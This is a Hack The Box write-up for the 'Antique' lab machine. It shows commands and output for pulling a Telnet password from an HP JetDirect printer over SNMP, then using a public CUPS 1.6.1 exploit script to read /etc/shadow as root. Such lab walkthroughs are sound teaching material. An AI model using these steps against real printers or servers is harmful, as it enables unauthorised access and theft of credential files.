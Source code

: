 ```yaml
---
clayout: ctf
title: Antique
date: 2025-08-28
image: /ctf/hack-the-box/machines/antique/info-card.png
type: Hack The Box

ctf:
    - name: Antique
      link: https://app.hackthebox.com/machines/400
      thumbnail: /ctf/hack-the-box/machines/antique/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/400
          thumbnail: /ctf/hack-the-box/machines/antique/pwned.png
---
```


## Machine Overview

The target machine runs a vulnerable HP JetDirect service exposed over Telnet (port 23) and a local CUPS printing service (port 631). Initial access is obtained through Telnet using SNMP information disclosure, and privilege escalation is achieved via a CUPS vulnerability.

## Enumeration

### Nmap Scan

We begin with a service scan to enumerate open ports:

```bash
nmap -A -oN nmap.txt 10.10.11.107
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings:
|   ... 
|     JetDirect
|     Password:
|   NULL:
|_    JetDirect
```

Port 23 is running a Telnet service that identifies as HP JetDirect.

Running a UDP scan reveals another service on port 631:

```bash
nmap -sU -p- -oN udp-nmap.txt 10.10.11.107
```

**Results:**

```bash
PORT    STATE         SERVICE
631/udp open|filtered ipp
```

This corresponds to the Internet Printing Protocol (IPP), which is typically handled by CUPS.

### Telnet Access

Connecting to the Telnet service:

```bash
telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password:
```

At this point, we need valid credentials. Searching online, we identify that JetDirect has a known information [disclosure issue](https://www.exploit-db.com/exploits/22319). Using `snmpwalk`, we can extract sensitive data:

```bash
snmpwalk -v2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

**Output (truncated):**

```bash
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 ...
```

The output is in hexadecimal/bit representation. Converting it in [CyberChef](https://cyberchef.net/#recipe=From_Hex('Auto')&input=NTAgNDAgNzMgNzMgNzcgMzAgNzIgNjQgNDAgMzEgMzIgMzMgMjEgMjEgMzEgMzIKMzMgMSAzIDkgMTcgMTggMTkgMjIgMjMgMjUgMjYgMjcgMzAgMzEgMzMgMzQgMzUgMzcgMzggMzkgNDIgNDMgNDkgNTAgNTEgNTQgNTcgNTggNjEgNjUgNzQgNzUgNzkgODIgODMgODYgOTAgOTEgOTQgOTUgOTggMTAzIDEwNiAxMTEgMTE0IDExNSAxMTkgMTIyIDEyMyAxMjYgMTMwIDEzMSAxMzQgMTM1) reveals the password:

```text
P@ssw0rd@123!!123
```

With these credentials, we authenticate via Telnet:

```bash
telnet 10.10.11.107
Password: P@ssw0rd@123!!123

Please type "?" for HELP
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

We have a shell running as the `lp` user.

> [!NOTE] User flag
> `/var/spool/lpd/user.txt`

## Privilege Escalation (lp → root)

Checking open connections shows that CUPS is running locally on port 631:

```bash
exec (netstat -punta || ss --ntpu)
```

**Output:**

```bash
tcp   0   0 127.0.0.1:631   0.0.0.0:*   LISTEN
tcp6  0   0 ::1:631         :::*        LISTEN
```

We query the service with `curl`:

```bash
exec curl -s http://localhost:631
```

**Output (excerpt):**

```html
<TITLE>Home - CUPS 1.6.1</TITLE>
<H1>CUPS 1.6.1</H1>
...
```

The server is running **CUPS 1.6.1**. This version is vulnerable to [CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519). The vulnerability allows local users to read arbitrary files with root privileges.

We use a public exploit script to read sensitive files:

```bash
exec echo '/etc/shadow' | ./cups-root-file-read.sh 10.10.11.107 631
```

**Output (truncated):**

```bash
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6bt...
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
...
```

> [!NOTE] Root flag
> `/root/root.txt`
